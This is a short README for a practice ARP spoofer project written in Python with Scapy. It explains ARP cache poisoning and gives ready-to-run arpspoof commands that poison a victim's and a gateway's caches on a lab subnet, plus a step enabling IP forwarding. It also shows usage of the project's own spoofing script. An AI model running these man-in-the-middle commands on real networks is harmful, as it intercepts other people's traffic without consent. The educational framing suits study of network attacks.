# ARP Spoofer

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends an ARP request to a device on a local area network, associating its MAC address with the IP addresses of other devices. 
Most likely this includes the default router or gateway, causing any traffic from the local network meant for it to be sent to the attacker instead.

There are many existing tools, like `arpspoof` that can do this.

From the hacking machine to the victim machine:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.75 192.168.122.1
```

and to the router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.1 192.168.122.75
```

and setting enabling forward (not persistent) on the hacking machine:

```shell
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

And programming such an ARP Spoofer is excellent practice.

## Requirements

* Root access
* Python 3
* Scapy

## Usage

```shell
usage: arp_spoofer.py [-h] [-t TARGET_IP] [-s SPOOF_IP]
```

Example:

```shell
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```
